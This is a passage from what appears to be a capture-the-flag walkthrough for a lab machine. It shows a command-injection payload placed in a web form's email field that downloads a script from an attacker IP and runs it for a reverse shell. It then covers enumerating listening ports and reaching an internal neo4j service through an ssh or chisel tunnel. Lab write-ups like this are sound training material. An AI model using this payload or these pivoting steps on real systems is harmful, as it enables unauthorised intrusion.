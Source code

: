 We can craft a payload to get a reverse shell by using spaces.

```bash
name=test&email=abc@abc.com; curl 10.10.14.41/script.sh -o /tmp/script.sh|chmod +x /tmp/script.sh|sh /tmp/script.sh&subject=test&message=test
```

Once we get the shell as `www-data`, we can look around the system. By running `ss -tulw` or `netstat -tulpn` we get all the listening tcp and udp sockets. We notice there is a process running on port 8001.

```bash
john@only4you:/$ ss -tulw
Netid    State     Recv-Q    Send-Q             Local Address:Port           Peer Address:Port    Process    
udp      UNCONN    0         0                  127.0.0.53%lo:domain              0.0.0.0:*                  
udp      UNCONN    0         0                        0.0.0.0:bootpc              0.0.0.0:*                  
tcp      LISTEN    0         2048                   127.0.0.1:8001                0.0.0.0:*                  
tcp      LISTEN    0         70                     127.0.0.1:33060               0.0.0.0:*                  
tcp      LISTEN    0         151                    127.0.0.1:mysql               0.0.0.0:*                  
tcp      LISTEN    0         511                      0.0.0.0:http                0.0.0.0:*                  
tcp      LISTEN    0         4096               127.0.0.53%lo:domain              0.0.0.0:*                  
tcp      LISTEN    0         128                      0.0.0.0:ssh                 0.0.0.0:*                  
tcp      LISTEN    0         4096                   127.0.0.1:3000                0.0.0.0:*                  
tcp      LISTEN    0         4096          [::ffff:127.0.0.1]:7687                      *:*                  
tcp      LISTEN    0         50            [::ffff:127.0.0.1]:7474                      *:*                  
tcp      LISTEN    0         128                         [::]:ssh                    [::]:*                                          -   
```

We see that neo4j is running on this port, we also saw this user in the `/etc/passwd` file when doing recon. 

#### Tunnel
We can either use ssh or chisel to set up a tunnel to the victim's localhost:8001 but we need the ssh password for the ssh tunnel (`ssh -L 8001:localhost:8001 user@remote_ip`) to work. 

We can use [chisel](https://github.com/jpillora/chisel) to tunnel this port to our machine without the need for an SSH password to access this service through our own browser.

First setup a chisel server:
```bash
$ chisel server --port 9000 --reverse
```
